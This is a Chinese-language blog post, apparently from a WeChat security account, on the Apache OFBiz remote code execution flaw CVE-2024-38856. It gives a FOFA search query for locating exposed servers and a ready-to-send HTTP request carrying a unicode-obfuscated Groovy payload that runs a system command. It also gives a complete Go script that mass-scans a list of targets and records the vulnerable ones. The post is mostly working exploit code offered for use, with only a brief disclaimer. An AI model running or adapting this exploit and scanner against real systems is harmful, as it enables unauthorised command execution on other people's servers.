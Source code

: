 #  Rce！Apache OFBiz代码执行(CVE-2024-38856)   
原创 琴音安全  琴音安全   2024-08-11 16:45  
  
**0x01 免责声明**  
  
琴音安全（本公众号）的技术文章仅供参考，请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任。信息及工具收集于互联网，真实性及安全性自测，如有侵权请联系删除。本次测试仅供学习使用，如若非法他用，与平台和本文作者无关，需自行负责！！！  
  
  
**0x02 漏洞简介**  
  
Apache_OFBiz是一款美国阿帕奇（Apache）基金会下的一套（ERP）系统。该系统可以提供一整套基于Java的Web应用程序组件及工具。Apache_ OFBiz的18.12.14及之前版本均存在安全漏洞，该漏洞源于存在授权错误导致的漏洞，从而导致未经身份验证的端点可执行屏幕渲染代码。  
  
**0x03 资产发现**  
  
**FOFA**  
：  
app="Apache_OFBiz"  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/OiaZBsiciaGvkQrDWZKsgwSfj2zLLKEanXn2dae5h0E4UWHJPBSmBMSb1FTp3ymxkfxhygufoZ0fcJOcVEDT9uoicA/640?wx_fmt=png&from=appmsg "")  
  
**0x04 漏洞复现**  
  
Poc  
```
POST /webtools/control/main/ProgramExport HTTP/1.1
Host: xxx
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/113.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Content-Type: application/x-www-form-urlencoded
Content-Length: 260

groovyProgram=\u0074\u0068\u0072\u006f\u0077\u0020\u006e\u0065\u0077\u0020\u0045\u0078\u0063\u0065\u0070\u0074\u0069\u006f\u006e\u0028\u0027\u0069\u0064\u0027\u002e\u0065\u0078\u0065\u0063\u0075\u0074\u0065\u0028\u0029\u002e\u0074\u0065\u0078\u0074\u0029\u003b
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/OiaZBsiciaGvkQrDWZKsgwSfj2zLLKEanXnNrbgOztWIymTPFDyZpSEIVyJHGVnbEIdzewibFNQynYaCibo4RyZPeiag/640?wx_fmt=png&from=appmsg "")  
  
自动化利用脚本  
```
package main

import (
  "bufio"
  "crypto/tls"
  "fmt"
  "github.com/imroc/req/v3"
  "os"
  "strings"
  "sync"
)

var (
  Payload = "groovyProgram=\\u0074\\u0068\\u0072\\u006f\\u0077\\u0020\\u006e\\u0065\\u0077\\u0020\\u0045\\u0078\\u0063\\u0065\\u0070\\u0074\\u0069\\u006f\\u006e\\u0028\\u0027\\u0069\\u0064\\u0027\\u002e\\u0065\\u0078\\u0065\\u0063\\u0075\\u0074\\u0065\\u0028\\u0029\\u002e\\u0074\\u0065\\u0078\\u0074\\u0029\\u003b"
  wg      sync.WaitGroup
)

func main() {
  file, err := os.Open("ip.txt")
  if err != nil {
    fmt.Println("打开文件失败:", err)
    return
  }
  defer file.Close()

  outFile, err := os.OpenFile("suss.txt", os.O_APPEND|os.O_CREATE|os.O_WRONLY, 0644)
  if err != nil {
    fmt.Println("打开文件失败:", err)
    return
  }
  defer outFile.Close()

  scanner := bufio.NewScanner(file)

  for scanner.Scan() {
    wg.Add(1)
    go func(ip string) {
      defer wg.Done()
      urls := []string{ip}
      if !strings.HasPrefix(ip, "http://") && !strings.HasPrefix(ip, "https://") {
        urls = []string{"https://" + ip, "http://" + ip}
      }
      for _, url := range urls {
        client := req.C().SetTLSClientConfig(&tls.Config{InsecureSkipVerify: true})
        resp, err := client.SetCommonHeaders(map[string]string{
          "User-Agent":      "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.6045.159 Safari/537.36",
          "Accept":          "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8",
          "Accept-Language": "zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2",
          "Content-Type":    "application/x-www-form-urlencoded",
        }).R().SetBody(Payload).Post(url + "/webtools/control/main/ProgramExport")

        if err != nil {
          fmt.Println("请求失败:", err)
          continue
        }
        if resp.IsSuccessState() && strings.Contains(resp.String(), "java.lang.Exception") {
          _, err = outFile.WriteString(url + "\n")
          if err != nil {
            fmt.Println("写入文件失败:", err)
          }
          break
        }
      }
    }(scanner.Text())
  }
  wg.Wait()

  if err := scanner.Err(); err != nil {
    fmt.Println("读取文件失败:", err)
  }
}

```  
  
加上需要扫描的目标文件，以及输出的文件即可。  
  
**0x05 文末**  
  
公众号后台回复**交流群**，获取进群链接。  
  
